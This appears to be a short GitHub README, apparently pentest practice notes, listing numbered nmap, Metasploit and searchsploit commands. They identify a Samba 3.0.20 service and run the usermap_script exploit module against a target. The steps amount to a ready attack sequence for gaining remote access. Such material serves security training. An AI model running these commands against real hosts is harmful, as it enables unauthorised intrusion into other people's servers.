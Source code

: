 # Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-
1.nmap -sV (target ip)

2.msfconsole

3.msf 6 > search smb

![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/79c6ea7a-ea95-4168-9358-6f0ca9b97695)
4.msf 6 > use auiliary/scanner/smb/smb_version

5.msf 6 > set RHOST (target ip)
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/95f78644-5107-4447-908b-13660f86b603)
6.msf 6 > run
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/80560e75-ed9d-4bd2-8bd4-877537ad5191)
7.searchsploit Samba | grep 3.0.20
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/b21e9a6d-adc4-4443-8fde-3d83725c9198)
8.msf 6 > use exploit/multi/samba/usermap_script
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/b82b5022-5880-4bf1-a75d-621ca16760dd)
9.msf 6 > set RHOST (target ip)
10.msf 6 > exploit
![image](https://github.com/thanawut2903/Port-139-netbios-ssn-Samba-smbd-3.X---4.X-workgroup-WORKGROUP-/assets/159118913/8fcb8276-efda-4b13-b718-3927c305f34a)
